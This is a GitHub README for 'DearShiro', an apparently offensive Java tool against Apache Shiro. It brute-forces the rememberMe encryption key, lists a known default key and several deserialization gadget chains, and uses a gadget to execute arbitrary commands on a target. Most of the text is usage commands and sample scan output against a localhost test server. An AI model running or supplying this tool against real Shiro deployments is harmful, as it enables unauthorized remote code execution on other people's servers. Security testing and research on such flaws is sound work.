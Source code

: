 # DearShiro

## Start

**A Simple Shiro Scanner**

**Just for practice**

[中文文档](https://github.com/F4ded/DearShiro/blob/master/README_CH.md)

Done:
- Detect the key
- Detect the available gadget
- Use the gadget to execute command


TODO:
- Graphical tool
- Fix some unknowns bug

The built-in gadget:
- CommonsBeanUtilsNoCC
- CommonsCollectionsK1
- CommonsCollectionsK2
- CommonsCollectionsK3
- CommonsCollectionsK4

## Usage

```python
❯ java -jar dearshiro.jar --help

Usage: <main class> [options]
  Options:
  * -m, --module
      module
  * -b, --baseurl
      baseurl
    -k, --key
      key
      Default: kPH+bIxk5D2deZiIxcaaaA==
    -g, --gadget
      gadget
      Default: NoCC
    -c, --command
      command
      Default: open -a Calculator
    --help


java -jar dearshiro.jar -m {module} -b {baseurl} [-k] [-g] [-c]
# key module 扫描key
java -jar dearshiro.jar -m "key" -b {baseurl}
# dadgetfuzz module 扫描可用gadget
java -jar dearshrio.jar -m "gadgetfuzz" -b {baseurl} -k {key}
# gadgetexec module 使用gadget执行任意命令
java -jar dearshiro.jar -m "gadgetexec" -b {baseurl} -k {key} -g {gadget} -c {command}
```

初步测试：

```
❯ java -jar dearshiro.jar -m "key" -b "http://127.0.0.1:8000/login.jsp"                                                                              
[+] Test key: 0AvVhmFLUs0KTA3Kprsdag==
[-] Response Code: 200
[+] Test key: kPH+bIxk5D2deZiIxcaaaA==
[-] Response Code: 200
[*] Found Key: kPH+bIxk5D2deZiIxcaaaA==


❯ java -jar dearshiro.jar -m "gadgetfuzz" -b "http://127.0.0.1:8000/login.jsp" -k "kPH+bIxk5D2deZiIxcaaaA=="    
[main] INFO org.reflections.Reflections - Reflections took 18 ms to scan 1 urls, producing 1 keys and 5 values 
[+] Test Gadget: CCK2
[-] Response Code: 200
[+] Test Gadget: NoCC
[-] Response Code: 200
[*] Found Gadget: NoCC
[+] Test Gadget: JRMPClient
[-] Response Code: 200
[+] Test Gadget: CCK1
[-] Response Code: 200
[*] Found Gadget: CCK1
########Available Gadget##########
NoCC
CCK1
########Available Gadget##########

```

